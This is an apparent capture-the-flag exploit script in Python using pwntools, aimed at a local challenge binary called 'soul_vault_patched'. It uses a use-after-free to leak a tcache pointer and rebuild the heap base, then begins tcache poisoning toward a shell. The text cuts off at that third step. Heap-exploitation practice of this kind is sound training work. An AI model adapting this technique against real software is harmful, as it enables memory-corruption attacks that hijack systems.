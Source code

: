 \begin{lstlisting}[style=py]
#!/usr/bin/env python3
"""soul-vault-collector: UAF -> heap leak -> forged Soul -> PIE leak -> shell"""
import os, re, sys
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

ROOT = '/home/kzzz/Documents/code/ctf/ctf7/pwn'
BIN  = os.path.join(ROOT, 'solve/vault/soul_vault_patched')
elf  = ELF(BIN, checksec=False)

CALLBACK_SOUL = 0x1289        # stone_callbacks[0] -> callback_soul
SYSTEM_PLT    = 0x1120        # system@plt，從 endbr64 進去
assert elf.plt['system'] in (0x1120, 0x1124)

S0_OFF = 0x2a0                # souls[0] - heap
S1_OFF = 0x310                # souls[1] - heap

def start():
    return process(BIN, cwd=os.path.dirname(BIN))

def exploit(io):
    io.recvuntil(b'Choice: ')

    def capture_raw(size, name, blob, term=True):
        io.sendline(b'1')
        io.sendlineafter(b'Enter Soul Name: ', name)
        io.sendlineafter(b'Enter Memory Size (max 1024): ', str(size).encode())
        io.recvuntil(b'Inscribe Memory: ')
        io.send(blob)
        if term:
            io.sendline(b'')
        io.recvuntil(b'Choice: ')

    def release(idx):
        io.sendline(b'3')                 # 3 = release
        io.sendlineafter(b'Enter vessel index (0-7): ', str(idx).encode())
        io.recvuntil(b'Choice: ')

    def inspect(idx):
        io.sendline(b'2')                 # 2 = inspect
        io.sendlineafter(b'Enter vessel index (0-7): ', str(idx).encode())
        return io.recvuntil(b'Choice: ')

    # ---- 1. 兩個 soul（memory 各 0x20）----
    capture_raw(0x20, b'A', b'aaaa\n')
    capture_raw(0x20, b'B', b'bbbb\n')

    # ---- 2. 從 UAF 的 name 讀 tcache fd，反推 heap ----
    release(1)
    out = inspect(1)
    raw = re.search(rb'Name: ([^\n]*)\n', out).group(1)
    if len(raw) != 5:
        raise RuntimeError('bad heap leak (%d bytes)' % len(raw))
    heap = u64(raw.ljust(8, b'\x00')) << 12
    s0, s1 = heap + S0_OFF, heap + S1_OFF
    assert s1 >> 12 == heap >> 12
    log.success('heap = %#x  souls[0] = %#x  souls[1] = %#x', heap, s0, s1)

    # ---- 3. 讓 tcache[0x40] = [S0, S1] ----
    release(0)


\end{lstlisting}
